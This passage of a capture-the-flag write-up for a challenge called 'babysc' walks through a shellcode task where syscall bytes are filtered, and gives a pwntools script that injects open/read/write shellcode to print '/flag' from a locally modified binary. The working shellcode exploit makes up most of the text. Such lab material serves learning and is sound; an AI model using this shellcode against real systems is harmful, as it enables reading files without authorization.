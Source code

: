 2. Based on observation, shellcode is written to a memory segment that allows write, read and execution. However, bytes related to `syscall`s are not allowed.
3. Based on Dockerfile, the flag resides on `/flag`. The user running `babysc` process may not have the right permissions to read the file.
4. For sanity check, the `syscall` byte checks are removed and compiled again with the same security flags. The permissions are also ignored.
5. Forge a script to pass shellcode to the modified executable:

   ```py
   #!/usr/bin/env python3
   from pwn import *

   context.arch = "amd64"
   context.log_level = "DEBUG"

   exe = "./babysc_no_syscall_check"
   elf = context.binary = ELF(exe, checksec=True)
   conn = process(exe)

   shellcode = asm("""
   mov rax, 0x2
   lea rdi, [rip + path]
   xor esi, esi
   xor edx, edx
   syscall

   mov rdi, rax

   xor rax, rax
   mov rsi, rsp
   mov rdx, 0x50
   syscall

   mov rdx, rax
   mov rax, 0x1
   mov edi, 0x1
   mov rsi, rsp
   syscall

   mov rax, 60
   xor edi, edi
   syscall

   path:
       .string "/flag"
   """)

   conn.recvuntil(b"Enter 0x1000")
   shellcode = shellcode.ljust(0x1000, b"\x90")
   conn.send(shellcode)

   conn.interactive()
   ```
